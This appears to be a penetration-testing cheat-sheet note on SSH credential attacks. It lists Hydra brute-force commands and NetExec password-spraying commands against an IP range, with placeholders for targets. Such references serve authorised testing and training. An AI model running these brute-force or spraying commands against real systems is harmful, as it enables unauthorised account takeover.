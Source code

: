 # Unix Shell

## 01 - Hydra

```
$ hydra -l <username> -P passwords.lst ssh://<IP>/<CIDR> [-s <PORT>]

$ hydra -l <username> -P passwords.lst <IP>/<CIDR> ssh [-s <PORT>]
```

## 02 - NetExec

Password spraying.

```
$ netexec ssh <IP>/<CIDR> -u users.lst -p "<password>"
```

Password spraying without bruteforce.

```
$ netexec ssh <IP>/<CIDR> -u users.lst -p passwords.lst --no-bruteforce [--continue-on-success]
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Online/Network Protocols/Remote Services/SSH|Password Cracking: SSH]]

- [NetExec: SSH Password Spraying](https://www.netexec.wiki/ssh-protocol/password-spraying)